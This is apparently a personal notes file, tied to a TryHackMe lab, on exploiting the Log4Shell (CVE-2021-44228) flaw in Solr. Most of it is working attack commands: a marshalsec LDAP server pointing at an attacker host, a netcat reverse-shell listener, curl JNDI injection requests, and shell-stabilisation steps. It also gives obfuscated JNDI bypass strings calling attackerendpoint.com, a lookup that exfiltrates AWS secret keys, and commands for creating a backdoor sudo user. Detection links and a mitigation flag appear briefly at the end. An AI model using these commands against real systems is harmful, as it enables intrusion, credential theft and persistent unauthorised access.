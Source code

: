 # List of web exploits that leverage java

---

# CVE-2021-44228 (Log4J exploit Notes)

# Proof of concept

## base log4j syntax examples

```
${sys:os.name}
${sys:user.name}
${log4j:configParentLocation}
${ENV:PATH}
${ENV:HOSTNAME}
${java:version}
```

## installing packages you need for the exploit

### setup packages for payload.java and supporting marshalsec files

* (install required packages)

`sudo apt install -y maven default-jre`

* will differ for your linux distro

### grab marshalsec code to help exploit log4j and build the utility
`git clone https://github.com/mbechler/marshalsec.git && cd marshalsec`
`mvn clean package -DskipTests`

#### start the ldap reference server `marshealsec utility` that log4j will interact with

`java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://rhost:rport/#sploit"`
`java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.10.10.1:8000/#sploit"`

* rhost = attacker ip
* lport = port of the web server, python3 webserver default to port 8000

### change java type on compile without having to change the default

`javac exploit.java -source 8 -target 8`


## setup web server in directory with the payload java.class file
`python -m SimpleHTTPServer`b
`python3 -m http.server`
`php -S <lhost>:<lport>`

## setup listener to catch the reverse shell

`nc -lvnp <lport>`
`nc -lvnp 8900`

## launch the attack with curl

```
curl 'http://10.10.89.179:8983/solr/admin/cores?foo=$\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:1389/Exploit\}'
wget -qO- 'http://10.10.89.179:8983/solr/admin/cores?foo=$\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:1389/Exploit\}'
```
	* wget will not work, probably missing something

---

# make linux reverse shell stable
1. make stable tty

	`python3 -c 'import pty;pty.spawn("/bin/bash")'`

	`script -q /dev/null -c /bin/bash`

2. make it able to clear the screen

	`export TERM=xterm`
0r
	`env | grep TERM`

	`export TERM=<whatever out machine TERM var is>`

	`export TERM=screen-256color`

3. allow ctrl+c without exiting the reverse shell
	`ctrl+z` = background rev shell

	`stty raw -echo;fg` -> enter -> enter

4. match the lines and columns to prevent broken line wraps

	* figure out lhost `rows` and `columns`

		`stty -a`

	* set the rev shell tty to match our machine

		`stty rows <row-number> cols <columns-number>`

		`stty rows 7 cols 94`

---

# log4j detection resources (ref from the thm log4j room
https://tryhackme.com/room/solar

https://github.com/mubix/CVE-2021-44228-Log4Shell-Hashes
https://gist.github.com/olliencc/8be866ae94b6bee107e3755fd1e9bf0d
https://github.com/nccgroup/Cyber-Defence/tree/master/Intelligence/CVE-2021-44228
https://github.com/omrsafetyo/PowerShellSnippets/blob/master/Invoke-Log4ShellScan.ps1
https://github.com/darkarnium/CVE-2021-44228

`https://www.reddit.com/r/sysadmin/comments/reqc6f/log4j_0day_being_exploited_mega_thread_overview/`
---

# creating a really user for poor persistance or change the log4j solar user's pw

```
passwd solr

0r

useradd <new_username>
passwd <username>
sudo usermod -aG sudo <username>
	* add them to the sudo group

sudo usermod -aG wheel <username>
	* wheel is sudo group for other certain linux distros

# when creating user don't forget to change the default shell from sh to something else
sudo useradd -ms /bin/bash <username>
	m = "home-dir"
	s = "default shell"

```

---

# log4j bypass 

```java
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/}

${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}

${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}

${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}

${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}

${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/}

${${::-j}ndi:rmi://attackerendpoint.com/}
```

* NOTE;
* to make use of the `rmi://` protocol or `Java remote method invocation`

* potentially able to extract data from AWS

	`${env:AWS_SECRET_ACCESS_KEY}`

### Additional techniques from reddit

`https://www.reddit.com/r/sysadmin/comments/reqc6f/log4j_0day_being_exploited_mega_thread_overview/`

---

# mitigation the log4j vuln
1. locate solr.in.sh file

	`locate solr.in.sh`
	`find / -type f -name solr.in.sh`

2. create backup file before modifying any important file

```
cp /etc/default/
sudo cp solr.in.sh solr.in.sh.bak
``` 

3. add the patch and restart the service to push changes
	* it's ok if you put this at the complete end of the `solr.in.sh` file

```
SOLR_OPTS="$SOLR_OPTS -Dlog4j2.formatMsgNoLookups=true"

sudo /etc/init.d/solr restart
```

* install patch is it's ready for your device/distro
